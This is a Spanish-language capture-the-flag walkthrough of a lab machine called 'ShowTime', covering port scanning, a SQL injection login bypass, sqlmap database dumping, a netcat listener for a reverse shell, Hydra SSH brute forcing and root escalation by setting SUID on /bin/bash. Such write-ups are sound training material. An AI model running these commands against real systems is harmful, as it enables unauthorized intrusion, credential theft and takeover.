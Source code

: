 ```yaml
---
description: '✍️ Autor: maciiii___ 🔍 Dificultad: Fácil  📅 Fecha de creación: 24/07/2024'
---
```


# ShowTime

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (818).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (819).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web del Casino.

<figure><img src="../../.gitbook/assets/image (820).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt
```

Hacemos una **inyección SQL** básica en el directorio `/login_page`.

```bash
' OR '1'='1
```

<figure><img src="../../.gitbook/assets/image (821).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (822).png" alt=""><figcaption></figcaption></figure>

Realizamos este comando para identificar bases de datos.

```bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms --dbs --batch
```

<figure><img src="../../.gitbook/assets/image (823).png" alt=""><figcaption></figcaption></figure>

Ahora para ver las tablas dentro de la base de datos de **users**.

```bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users --tables --batch
```

<figure><img src="../../.gitbook/assets/image (825).png" alt=""><figcaption></figcaption></figure>

Ahora vemos las columnas dentro de la tabla de **usuarios**.

```bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios --columns --batch
```

<figure><img src="../../.gitbook/assets/image (824).png" alt=""><figcaption></figcaption></figure>

Ahora vemos la información que hay guardada en los registros.

```bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios -C password,id,username --dump --batch
```

<figure><img src="../../.gitbook/assets/image (826).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con el tercer usuario nos logueamos y nos sale un panel de administración en el que podemos ejecutar un comando en **Python**.

<figure><img src="../../.gitbook/assets/image (827).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha para recibir la Reverse Shell.

```bash
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (828).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos con SUDO.

En el directorio `/tmp` hay una archivo del texto oculto.

<figure><img src="../../.gitbook/assets/image (829).png" alt=""><figcaption></figcaption></figure>

Creamos un diccionario pasando de mayúsculas a minúsculas para realizar la fuerza bruta.

```bash
tr '[:upper:]' '[:lower:]' < trucos.txt > diccionario.txt
```

Realizamos el ataque de fuerza bruta mediante **Hydra**.

```bash
hydra -l joe -P diccionario.txt ssh://172.17.0.2 -t 64
```

<figure><img src="../../.gitbook/assets/image (830).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales encontradas.

```bash
ssh joe@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (831).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos **SUDO** con **posh** por lo que miramos esta [página ](https://gtfobins.github.io/gtfobins/posh/)para ver como escalar privilegios.

```bash
sudo -u luciano /bin/posh
```

<figure><img src="../../.gitbook/assets/image (832).png" alt=""><figcaption></figcaption></figure>

En el directorio de **luciano** principal encontramos un script que no podemos editar con nano ni con vim por lo que lo hacemos con echo.

<figure><img src="../../.gitbook/assets/image (833).png" alt=""><figcaption></figcaption></figure>

```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > script.sh
```

Ahora ejecutamos el script para ser **root**.

```bash
sudo -u root /bin/bash /home/luciano/script.sh 
```

Ejecutamos.

```bash
bash -p
```

<figure><img src="../../.gitbook/assets/image (834).png" alt=""><figcaption></figcaption></figure>
